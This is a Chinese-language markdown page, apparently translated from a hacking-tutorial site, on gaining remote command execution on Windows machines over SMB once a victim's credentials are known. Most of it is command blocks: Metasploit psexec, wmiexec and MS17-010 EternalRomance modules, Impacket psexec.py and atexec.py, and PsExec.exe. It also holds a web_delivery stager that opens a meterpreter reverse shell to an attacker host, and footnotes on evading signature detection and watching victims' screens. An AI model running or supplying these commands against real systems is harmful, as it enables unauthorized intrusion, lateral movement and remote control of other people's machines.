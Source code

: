 ## 使用SMB端口连接远程PC的多种方法 [^1]

**通过Metasploit内置漏洞利用SMB开发Windows Server 2008 R2：**

- Microsoft Windows身份验证用户代码执行 [^2]

  - ```bash
    msf > use exploit/windows/smb/psexec
    msf exploit windows/smb/psexec) > set rhost 192.168.1.104
    msf exploit(windows/smb/psexec) > set smbuser administrator
    msf exploit(windows/smb/psexec) > set smbpass Ignite@123
    msf exploit(windows/smb/psexec) > exploit
    ```

- Microsoft Windows身份验证的Powershell命令执行 [^3]

  - ```bash
    msf > use exploit/windows/smb/psexec_psh
    msf exploit(windows/smb/psexec_psh) > set rhost 192.168.1.104
    msf exploit(windows/smb/psexec_psh) > set smbuser administrator
    msf exploit(windows/smb/psexec_psh) > set smbpass Ignite@123
    msf exploit(windows/smb/psexec_psh) > exploit
    ```

- Microsoft Windows身份验证管理实用程序 [^4]

  - ```bash
    use exploit/multi/script/web_delivery
    msf exploit(multi/script/web_delivery) > set target 3
    msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
    msf exploit(multi/script/web_delivery) > set lhost 192.168.1.106
    msf exploit(multi/script/web_delivery) > exploit
    ```

  - ```bash
    msf > use auxiliary/admin/smb/psexec_command
    msf auxiliary(admin/smb/psexec_command) > set rhosts 192.168.1.104
    msf auxiliary(admin/smb/psexec_command) > set smbuser administrator
    msf auxiliary(admin/smb/psexec_command) > set smbpass Ignite@123
    msf auxiliary(admin/smb/psexec_command) > set COMMAND [Paste above copied dll code here]
    msf auxiliary(admin/smb/psexec_command) > exploit
    ```

- SMB Impacket WMI Exec

  - ```bash
    msf > use auxiliary/scanner/smb/impacket/wmiexec
    msf auxiliary(scanner/smb/impacket/wmiexec) > set rhosts 192.168.1.104
    msf auxiliary(scanner/smb/impacket/wmiexec) > set smbuser administrator
    msf auxiliary(scanner/smb/impacket/wmiexec) > set smbpass Ignite@123
    msf auxiliary(scanner/smb/impacket/wmiexec) > set COMMAND systeminfo
    msf auxiliary(scanner/smb/impacket/wmiexec) > exploit
    ```

**第三方工具**

- Impacket（**Psexec.py**） [^5]

  - ```bash
    git clone https://github.com/CoreSecurity/impacket.git
    cd impacket/
    python setup.py install
    cd examples
    # Syntax: ./psexec.py [[domain/] username [: password] @] [Target IP Address]
    ./psexec.py SERVER/Administrator:Ignite@192.168.1.104
    ```

- Impacket（**Atexec.py**） [^6]

  - ```bash
    # Syntax: /atexec.py [[domain/] username [: password] @] [Target IP Address] [Command]
    ./atexec.py SERVER/Administrator:Ignite123@192.168.1.104 systeminfo
    ```

- Psexec.exe [^7]

  - ```bash
    PsExec.exe\\192.168.1.104 -u administrator -p Ignite@123 cmd
    ```

- Atelier Web Remote Commander [^8]

**通过Metasploit内置漏洞利用SMB开发Windows 2007：**

- MS17-010 EternalRomance SMB远程代码执行 [^9]

  - ```bash
    msf > use exploit/windows/smb/ms17_010_psexec
    msf exploit(windows/smb/ms17_010_psexec) > set rhost 192.168.1.105
    msf exploit(windows/smb/ms17_010_psexec) > set smbuser raj
    msf exploit(windows/smb/ms17_010_psexec) > set smbpass 123
    msf exploit(windows/smb/ms17_010_psexec) > exploit
    ```

- MS17-010 EternalRomance SMB远程命令执行 [^10]

  - ```
    use exploit/multi/script/web_delivery
    msf exploit(multi/script/web_delivery) > set target 3
    msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
    msf exploit(multi/script/web_delivery) > set lhost 192.168.1.106
    msf exploit(multi/script/web_delivery) > exploit
    ```

  - ```bash
    msf > use auxiliary/admin/smb/ms17_010_command
    msf auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.1.105
    msf auxiliary(admin/smb/ms17_010_command) > set smbuser raj
    msf auxiliary(admin/smb/ms17_010_command) > set smbpass 123
    msf auxiliary(admin/smb/ms17_010_command) > set COMMAND [Paste above copied dll code here]
    msf auxiliary(admin/smb/ms17_010_command) > exploit
    ```

[原文](https://www.hackingarticles.in/multiple-ways-to-connect-remote-pc-using-smb-port/)

---

[^1]: 一旦您收集了受害者PC的用户名和密码，我们将学习如何通过SMB端口445连接受害者的机器。
[^2]: 此模块使用有效的管理员用户名和密码（或密码哈希）来执行任意有效负载。此模块类似于SysInternals提供的“psexec”实用程序。该模块现在可以自行清理。此工具创建的服务使用随机选择的名称和描述
[^3]: 此模块使用有效的管理员用户名和密码，使用与SysInternals提供的“psexec”实用程序类似的技术执行PowerShell有效内容。有效负载在base64中编码，并使用-encoded命令标志从命令行执行。使用此方法，有效负载永远不会写入磁盘，并且假设每个有效负载都是唯一的，则不太容易进行基于签名的检测。提供持久选项以在while循环中执行有效负载以便维持一种持久性形式。在沙盒观察PSH执行的情况下，可以添加延迟和其他混淆以避免检测。为了避免当前用户的交互式进程通知，psh有效负载的大小已经减小并包含在PowerShell调用中，该调用完全隐藏了窗口
[^4]: 此模块使用有效的管理员用户名和密码，使用与SysInternals提供的“psexec”实用程序类似的技术**在一个或多个主机上执行任意命令**。使用'＆'的菊花链命令不起作用，用户不应该尝试。此模块很有用，因为它不需要将任何二进制文件上载到目标计算机。因此，在新的Metasploit框架中，我们使用Web传输模块来获取恶意dll代码，我们可以将其用作主机上的任意命令
[^5]: Psexec.py允许您在远程Windows系统上执行进程，在远程系统上复制文件，处理其输出并将其流回。它允许直接使用完整的交互式控制台执行远程shell命令，而无需安装任何客户端软件。
[^6]: 此示例通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。
[^7]: Psexec.exe是帮助我们访问网络中其他计算机的软件。该软件直接将我们带到远程PC的外壳，其优点是无需手动操作。从 - > **[下载地址](http://download.sysinternals.com/files/PSTools.zip)**下载此软件
[^8]: 这是一个图形软件，让我们可以很容易地控制受害者的PC。打开软件后，在远程主机框中提供受害者PC 的  **IP地址** 以及各自框中的  **用户名**  和  **密码** 。然后点击  **connect** ; 整个受害者的PC屏幕将显示在您的桌面上，您可以很好地了解受害者的行为。
[^9]: 该模块将利用具有MS17-010漏洞的SMB来实现write-what-where原语。然后，这将用于以管理员会话覆盖连接会话信息。从那里，完成正常的psexec有效载荷代码执行。在EternalRomance，EternalChampion和EternalSynergy漏洞中看到，在Transaction和Write请求之间以及Transaction事务请求中的竞争条件中利用了一种混淆。此漏洞链比EternalBlue漏洞利用更可靠，但需要命名管道
[^10]: 该模块将利用具有MS17-010漏洞的SMB来实现write-what-where原语。然后，这将用于以管理员会话覆盖连接会话信息。从那里，正常的psexec命令执行完成。在EternalRomance，EternalChampion和EternalSynergy漏洞中看到，在Transaction和Write请求之间以及Transaction事务请求中的竞争条件中利用了一种混淆。此漏洞链比EternalBlue漏洞利用更可靠，但需要命名管道。因此，在新的Metasploit框架中，我们使用Web传输模块来获取恶意dll代码，我们可以将其用作主机上的任意命令